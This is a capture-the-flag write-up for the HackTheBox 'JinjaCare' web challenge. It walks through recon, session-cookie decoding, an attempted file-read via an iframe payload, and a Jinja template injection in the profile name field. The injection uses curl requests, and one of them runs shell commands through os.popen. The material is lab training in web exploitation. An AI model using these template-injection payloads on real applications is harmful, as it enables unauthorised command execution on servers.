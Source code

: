 ```yaml
---
slug: /write-up/htb/challenges/jinjacare
pagination_next: null
pagination_prev: null
---
```


# Jinjacare

https://app.hackthebox.com/challenges/JinjaCare

Jinjacare is a web app for managing COVID-19 vaccination records, allowing users to view history and generate digital certificates. You're invited to identify security vulnerabilities in the system and retrieve the hidden flag from the application.

## Recon

└─$ whatweb http://94.237.54.192:47055/
http://94.237.54.192:47055/ [200 OK] Country[FINLAND][FI], Email[info@jinjacare.com], HTML5, HTTPServer[nginx/1.22.1], IP[94.237.54.192], Script, Title[JinjaCare - Home], nginx[1.22.1]

The source code is not bundled, so we can take a look.

Non-logged user interactions:

1) Login
2) Register
3) Verify certificate

Logged interactions:

4) Download certificate
5) Update personal info
6) Add record to medical history
7) Add vaccination record

The downloaded certificate has a QR worth exploring... it has the URL to verify the certificate. When verifying the certificate, we get:

```
Certificate is valid
Name: Test test

Issue Date: 2025-08-02

Status: Valid

Certificate ID: 4b7c8a77-1d21-43b8-9f95-cdd81ca988fc
```

So, it's a way of exposing data, we would need to have the certificate ID.

Regarding the session cookie:

The value is a signed, URL-safe, possibly zlib-compressed Base64-encoded token.

Likely generated using Python’s itsdangerous or Django/Flask session management.

You need the secret key to decode it completely and safely.

```python
from itsdangerous import URLSafeTimedSerializer

# Substitute with your actual secret key
secret_key = 'secret'
serializer = URLSafeTimedSerializer(secret_key)

decoded = serializer.loads('eJwlzjEOwzAIQNG7eO4AiTGQy0SAQe2aNFPVuzdS168_vE_b68jz2bb3ceWj7a_ZtjZmp3DsOBkkhkSl5VAJWZJMGbSjswMOMcNl8P2WrhVlQHK3FE21hI6dNdhUXIdBiWDmuroRYWQJBc8FlHGCeDoPZSq0dkOuM4-_Btv3B9TaL5E.aI3PQw.13X6VlkbhdbnEyvL-flGMof2DX4')
print(decoded)
```

With burp suite, we see the session cookie changes from

```
Cookie: session=.eJwlzjEOwzAIQNG7eO4AiTGQy0SAQe2aNFPVuzdS168_vE_b68jz2bb3ceWj7a_ZtjZmp3DsOBkkhkSl5VAJWZJMGbSjswMOMcNl8P2WrhVlQHK3FE21hI6dNdhUXIdBiWDmuroRYWQJBc8FlHGCeDoPZSq0dkOuM4-_Btv3B9TaL5E.aI3PQw.13X6VlkbhdbnEyvL-flGMof2DX4
```

to

```
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.aI3UXA.CYoLW8CfalTCefLOSG2huGM7ptg
```

With base64 decode, we got:

```json
{"_fresh": false}
```

Maybe we can copy the contents of this cookie, to get acess to the dashboard.

Most likely, we'll need to get a way to retrieve a UUID and then call the verify

Doing directory bruteforce, we can find an interesting directory: `console`. Looks like it's a Console // Werkzeug Debugger

which asks for a PIN. We can compute this PIN, but will need access to the machine itself.

The output is reflected in the generated PDF, we might be able to inject some malicious payload in the Full Name field.

## SSTI

From the downloaded PDF, we can see that is generate with `whhtmltopdf`. Looks like we can break PDF Generation using `{` char. When the full name is set to `{{{{{` the PDF generation breaks with :

```
Error generating certificate: unexpected '<'
```

or with another payload:

```
<iframe src=”file:///etc/passwd” height=”500” width=”500”>
```

the error is:

```
Error generating certificate: wkhtmltopdf reported an error: The switch --no-outline, is not support using unpatched qt, and will be ignored.QStandardPaths: XDG_RUNTIME_DIR not set, defaulting to '/tmp/runtime-root' Exit with code 1 due to network error: ContentNotFoundError
```

which looks like the output of the command, so we have command injection vulnerability here.

However, judging by the name of the challenge, we might be lucky to have simple Jinja template injection on the Full Name field 

Call to update the profile
```shell
curl 'http://94.237.50.221:34050/profile/personal' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://94.237.50.221:34050' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://94.237.50.221:34050/profile/personal' \
  -H 'Cookie: session=.eJwlzjEOwzAIQNG7eO6AMWCSy0TYgNrVaaaqd2-krn_4ep9y5IrzWfb3uuJRjpeXvWDOHg2yq5s7NNbNqNuksF5RqhCYskSISAuoxA3gDjpy-KYcc7RqW-1pg6cPYk3MRoDzHtJIlB6oShpmJonMYSToiiKjZrkh1xnrr6nl-wPM4y-d.aI9hZw.09HnWSM3dAKtNpbgpOxn0tUS9C8' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'name={{2*2}}&email=test%40test.htb&phone=None&address=None&dateOfBirth=2025-08-05&gender=male&emergencyName=None&emergencyPhone=None&relationship=None'
  ```

  In the PDF we can see the number 4 reflected, so looks like we have simple template injection working. No need to try to break whtmltopdf to explot the command injection.

  According to https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection, the next thing is identify the templating engine, if you look at the tittle of change, there are high chances we're dealing with Jinja templating engine.

  We can use SSTI to read the files in the server, and we see there's a flag.txt

  ```
  curl 'http://94.237.50.221:34050/profile/personal' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://94.237.50.221:34050' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://94.237.50.221:34050/profile/personal' \
  -H 'Cookie: session=.eJwlzjEOwzAIQNG7eO6AMWCSy0TYgNrVaaaqd2-krn_4ep9y5IrzWfb3uuJRjpeXvWDOHg2yq5s7NNbNqNuksF5RqhCYskSISAuoxA3gDjpy-KYcc7RqW-1pg6cPYk3MRoDzHtJIlB6oShpmJonMYSToiiKjZrkh1xnrr6nl-wPM4y-d.aI9hZw.09HnWSM3dAKtNpbgpOxn0tUS9C8' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'name={{config.__class__.__init__.__globals__["os"].popen("ls /").read()}}&email=test%40test.htb&phone=None&address=None&dateOfBirth=2025-08-05&gender=male&emergencyName=None&emergencyPhone=None&relationship=None'
  ```

  And we got the flag!